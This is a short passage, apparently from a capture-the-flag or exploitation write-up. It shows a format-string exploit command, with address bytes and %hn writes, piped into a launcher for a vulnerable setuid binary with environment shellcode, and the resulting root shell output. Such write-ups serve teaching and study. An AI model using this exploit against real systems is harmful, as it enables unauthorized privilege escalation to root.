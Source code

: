 In order to execute the exploit, the crafted string is passed as stdin into the python script that launches the vulnerable executable with the environment containing the shellcode.

```
(python -c 'print("\x26\x97\x04\x08\x24\x97\x04\x08%49143x%4$hn%16345x%5$hn")'; cat) | python ~/py.py 
<white spaces>200<whitespaces>b7fd8420
whoami
root
```

**NOTE:** `cat` was used to keep the stdin open for passing commands to our shell.
**NOTE:** The original binary is now executable to take advantage of the `setuid` property and gain root access.
